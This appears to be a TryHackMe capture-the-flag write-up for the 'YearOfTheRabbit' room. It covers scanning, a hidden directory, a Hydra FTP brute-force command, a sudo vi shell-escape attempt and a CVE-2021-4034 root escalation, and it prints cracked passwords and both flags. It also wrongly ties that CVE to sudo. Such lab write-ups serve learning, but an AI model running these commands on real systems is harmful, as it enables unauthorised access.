 ## YearOfTheRabbit-thm

## Scanning Started
Apache version 2.4.10(Outdated)
  => Nmap:
## Openports: 
	   22 = ssh
	   80 = http
	   21 = ftp
## Directory Busting:
		assets => styles.css => /sup3r_s3cr3t_fl4g.php
	 	The secret Directory will be found by burp suite in one the responses
	 	secret Directory: /WExYY2Cv-qU => Hot_babe.png => crack using strings

#	 strings Hot_babe.png =>
a username = ftpuser
and a number of passwords.



##	Used Hydra to Crack FTP using Credentials from the hidden Directory

		hydra -l ftpuser -P passwords ftp://10.10.103.7


	[21][ftp] host: 10.10.103.7   login: ftpuser   password: 5iez1wGXKfPKQ

## And therefore Discovered a new set of Languages BrainF*ck
	Go online Search a good compiler for the language
	Result:

	User: eli

	Password: DSpDiM1wAEwid


# Linux Priv 

Ran linpeas.sh

## Possible Exploits:
	1) Sudo version 1.8.10p3 

	=> Vulnerable to CVE-2021-4034





	2) Found an Interesting File

	-rw-r--r-- 1 root root 138 Jan 23  2020 /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

## Password For Gwendoline Found in 
	/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

"Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root"

## Flag => user.txt
	THM{1107174691af9ff3681d2b5bdb5740b1589bae53}

## Linux priv esc from Gwen's ID



	sudo /usr/bin/vi -c ':!/bin/sh' /dev/null (Tried but was not a success)

	So as a last resort Performed the CVE-2021-4034



## root.txt
	THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
